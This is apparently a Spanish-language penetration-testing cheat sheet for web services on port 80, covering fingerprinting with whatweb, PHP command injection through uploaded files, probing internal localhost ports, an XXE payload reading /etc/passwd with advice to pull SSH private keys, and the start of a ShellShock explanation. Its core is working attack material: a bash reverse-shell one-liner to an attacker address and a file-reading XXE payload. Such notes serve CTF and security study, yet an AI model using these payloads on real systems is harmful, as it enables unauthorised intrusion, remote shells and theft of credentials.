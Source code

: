 
<br><br>
## 80 HTTP (Hypertext Transfer Protocol).
Protocolo usado para montar sitios web.
Con la herramienta whatweb puedes ver informacion acerca del sitio web como que tipo de CMS "Control Management System" se esta usando ya sea joomla, wordpress o drupal, con que tipo de lenguaje esta programado (php, python, java etc). Tambien puedes ver esta información con wappalyzer que es un plugin que puedes instalar en tu navegador.
```
whatweb http://<ip-addres>
```
<br>
Si hay un escaner de url en el sitio web, crea un archivo y ve si el contenido del archivo te lo muestra en la página al subirlo, prueba si te interpreta código php inyectando un comando.
```
nvim test -> <?php system("whoami"); ?>
http://<ip-addres>/test

Listar el phpinfo para ver las funciones que estan deshabilitadas.
http://<ip-address>/test -> test = <?php phpinfo(); ?>

Intentar escanear la url de la maquina junto con los puertos que tiene abiertos para verificar si hay informacion expuesta o si exiten mas puertos abiertos internamente.
http://127.0.0.1:443
http://localhost:5000
```  
<br>
Si hay un campo para subir archivos probar subiendo un archivo.txt para verificar si se está aplicando sanitización, en caso de que no se esté validando el tipo de archivo que se sube puedes subir un archivo.php malicioso para enviarte una reverse shell.
```
nvim reverse_shell.php -> bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'
```
<br>
<br>
<b>XXE.</b><br>
Si se aplica validación en archivos.xml se puede acontacer un XXE si el contenido del archivo.xml te lo muestra en la web tal cual. 

Puedes leer el /etc/passwd para ver los usarios que hay en el sistema.

Leer el /proc/net/fib_trie para verificar que no haya contenedores en la máquina víctima.

Listar el /proc/net/tcp para ver los puertos que estan abiertos internamente en la máquina.

Listar la id_rsa del usario para conectarse por ssh sin proporcionar contraseña (/home/\<user\>/.ssh/id_rsa).
```
<?xml version="1.0" encoding="ISO-8859-1"?>
          <!DOCTYPE foo [  
          <!ELEMENT foo ANY >
          <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    
          <post>
                  <title>Example Post</title>
                  <description>Example Description</description>
                  <markdown>&xxe;</markdown>
          </post>
```
<br>
<br>
<b>ShellShock Attack.</b><br>
Es un ataque que se produce cuando un atacante aprovecha una vulnerabilidad en el intérprete de comandos Bash.El ataque se aprovecha de la falta de validación en la entrada de comandos y permite al atacante ejecutar código malicioso en el sistema.<br><br>